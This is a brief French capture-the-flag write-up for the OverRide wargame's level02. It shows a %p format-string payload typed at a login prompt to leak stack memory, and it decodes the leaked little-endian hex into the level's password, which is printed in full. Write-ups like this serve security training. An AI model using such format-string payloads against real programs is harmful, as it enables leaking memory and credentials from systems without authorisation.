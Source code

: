 On a un printf qui lit nos arguments.

On peux taper %p pour afficher les pointeurs contenus dans le programme grâce à l'utilisation d'un printf non sécurisé.

On spamme les %p où on nous demande notre username avec la commande au moment:

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
```

756e505234376848 (unPR47hH)
45414a3561733951 (EAJ5as9Q)
377a7143574e6758 (7zqCWNgX)
354a35686e475873 (5J5hnGXs)
48336750664b394d (H3gPfK9M)

Soluce: on lit les var à l'envers et on reverse (little endian)

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H